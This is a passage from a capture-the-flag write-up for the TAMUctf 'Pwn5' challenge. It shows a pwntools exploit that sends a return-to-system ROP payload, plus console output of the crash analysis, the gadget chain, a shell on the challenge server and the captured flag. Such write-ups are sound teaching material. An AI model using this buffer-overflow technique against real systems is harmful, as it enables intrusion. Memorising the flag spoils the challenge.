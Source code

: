 ```python
payload = fit({overflow_offset: str(rop)}, filler = 'A')
log.info("Sending payload: {}".format(enhex(payload)))
p.sendline(payload)
p.interactive()
```

Output:

```console
root@kali:/media/sf_CTFs/tamu/Pwn5# python exploit.py REMOTE
[*] '/media/sf_CTFs/tamu/Pwn5/pwn5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './pwn5': pid 3979
[*] Process './pwn5' stopped with exit code -11 (SIGSEGV) (pid 3979)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/tamu/Pwn5/core.3979'
    Arch:      i386-32-little
    EIP:       0x66616161
    ESP:       0xffb33cd0
    Exe:       '/media/sf_CTFs/tamu/Pwn5/pwn5' (0x8048000)
    Fault:     0x66616161
[*] overflow offset: 17
[*] system() address: 0x804ee30
[*] /bin/sh address: 0x80bc140
[*] Loaded cached gadgets for '/media/sf_CTFs/tamu/Pwn5/pwn5'
0x0000:        0x804ee30 system(0x80bc140)
0x0004:           'baaa' <return address>
0x0008:        0x80bc140 arg0
[+] Opening connection to pwn.tamuctf.com on port 4325: Done
[*] Sending payload: 414141414141414141414141414141414130ee04086261616140c10b08
[*] Switching to interactive mode
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
Result of ls AAA:
$ ls
flag.txt
pwn5
$ cat flag.txt
gigem{r37urn_0r13n73d_pr4c71c3}
$ exit
$
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to pwn.tamuctf.com port 4325
[*] Got EOF while sending in interactive
```

